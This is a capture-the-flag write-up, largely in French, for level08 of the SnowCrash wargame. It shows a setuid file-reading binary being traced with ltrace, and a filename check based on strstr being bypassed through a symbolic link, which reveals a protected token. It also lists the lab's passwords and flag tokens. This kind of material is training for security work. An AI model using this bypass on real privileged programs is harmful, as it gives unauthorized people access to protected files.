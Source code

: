 # LEVEL 08

**LOGIN: level08**

**PASSWORD: fiumuikeil55xe9cu4dood66h**

 ----
 
 ```
 ls -l ; echo ; file level08
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xbe40aba63b7faec62e9414be1b639f394098532f, not stripped
```
```
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token 
You may not access 'token'
level08@SnowCrash:~$ echo toto > test
level08@SnowCrash:~$ ./level08 test
toto

```

le binaire `level08` permet de lire le contenu d'un fichier, mais il y'a une sécurité protegeant le fichier `token`

```
ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                              = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)          = 27
exit(1 <unfinished ...>
```

Apparement un simple `strstr` sur le nom du fichier. 

```
level08@SnowCrash:~$ ln -s token exploit
level08@SnowCrash:~$ ./level08 exploit
quif5eloekouj29ke0vouxean
```
```
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

**TOKEN: quif5eloekouj29ke0vouxean**




